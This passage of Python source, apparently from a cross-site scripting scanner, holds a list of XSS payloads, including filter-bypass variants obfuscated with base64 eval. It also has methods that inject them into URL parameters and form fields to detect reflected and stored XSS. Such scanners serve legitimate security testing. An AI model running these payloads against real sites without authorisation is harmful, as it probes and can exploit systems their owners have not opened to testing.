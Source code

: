 ```python
                'javascript:alert("XSS")',
                '<iframe src="javascript:alert(\'XSS\')"></iframe>'
            ],
            'filter_bypass': [
                '<ScRiPt>alert("XSS")</ScRiPt>',
                '<script>alert(String.fromCharCode(88,83,83))</script>',
                '<img src="x" onerror="alert(\'XSS\')">',
                '<svg><script>alert&#40;\'XSS\'&#41;</script>',
                '<script>eval(atob("YWxlcnQoJ1hTUycpOw=="))</script>',
                '<img src=x onerror=eval(atob("YWxlcnQoJ1hTUycpOw=="))>',
                '<script>window["alert"]("XSS")</script>',
                '<script>top["alert"]("XSS")</script>'
            ],
            'dom_based': [
                '#<script>alert("XSS")</script>',
                'javascript:alert("XSS")',
                '<img src=x onerror=alert("XSS")>',
                'data:text/html,<script>alert("XSS")</script>'
            ]
        }
    
    def generate_unique_payload(self):
        """Generate unique payload for detection"""
        unique_id = ''.join(random.choices(string.ascii_letters + string.digits, k=8))
        return f'<script>alert("XSS_{unique_id}")</script>', unique_id
    
    def test_reflected_xss(self, url, params):
        """Test for reflected XSS vulnerabilities"""
        for param in params:
            for category, payloads in self.payloads.items():
                for payload in payloads:
                    test_params = params.copy()
                    test_params[param] = payload
                    
                    try:
                        response = self.session.get(url, params=test_params, timeout=10)
                        
                        if payload in response.text:
                            self.vulnerabilities.append({
                                'type': 'Reflected XSS',
                                'url': url,
                                'parameter': param,
                                'payload': payload,
                                'category': category,
                                'severity': 'High',
                                'evidence': payload in response.text
                            })
                            
                    except Exception as e:
                        continue
    
    def test_stored_xss(self, form_url, form_data):
        """Test for stored XSS vulnerabilities"""
        unique_payload, unique_id = self.generate_unique_payload()
        
        # Submit payload
        test_data = form_data.copy()
        for field in test_data:
            if 'comment' in field.lower() or 'message' in field.lower() or 'content' in field.lower():
                test_data[field] = unique_payload
                break
        
```